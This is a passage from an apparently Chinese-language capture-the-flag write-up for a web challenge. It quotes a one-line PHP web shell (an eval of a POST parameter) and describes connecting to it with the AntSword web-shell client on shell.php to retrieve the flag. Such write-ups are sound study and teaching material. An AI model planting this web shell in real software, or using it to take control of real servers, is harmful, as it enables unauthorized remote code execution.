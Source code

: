 ![](SDUCTF2019-wp\web11.jpg)

看刀`<!--php eval(@$_POST["cmd"]);-->`就可知是一句话木马，对这个稍微了解一下，去github获取中国蚁剑即可

不过有一个坑，就是他默认访问是`index.php`，但是通过中国蚁剑连不上，回头看页面，发现在题目中有一个`shell.php`，于是尝试`url/shell.php`加上密码`cmd`，成功连上得到flag

![](SDUCTF2019-wp\web11-2.jpg)





### 0x0c 达拉崩吧	

